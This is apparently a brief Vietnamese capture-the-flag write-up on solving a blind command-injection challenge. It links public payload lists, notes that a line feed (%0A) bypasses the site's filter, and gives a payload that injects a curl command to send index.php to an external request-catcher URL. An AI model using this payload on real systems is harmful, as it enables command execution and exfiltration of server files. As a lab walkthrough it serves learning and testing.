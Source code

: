 Chall này cần 2 resource để giải quyết:

1. Payloads để bypass cái filter của trang web, có thể dùng [link](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection) hoặc [link](https://github.com/payloadbox/command-injection-payload-list), dùng intruder để brute force thử, cuối cùng sẽ ra kí tự `line feed`(%0A) có thể dùng để inject command
2. cURL có chức năng gửi file, dùng @ trước tên file để đọc toàn bộ nội dung của file. Tại sao cần cURL, bởi vì đây là dạng blind injection nên nó sẽ không hiện ra cái mình cần trong response

Payload: ip=127.0.0.1%0a curl -d @index.php https://f79aa2771db8344b022a535bce6b246b.m.pipedream.net

(Ở đây dùng pipedream để bắt request)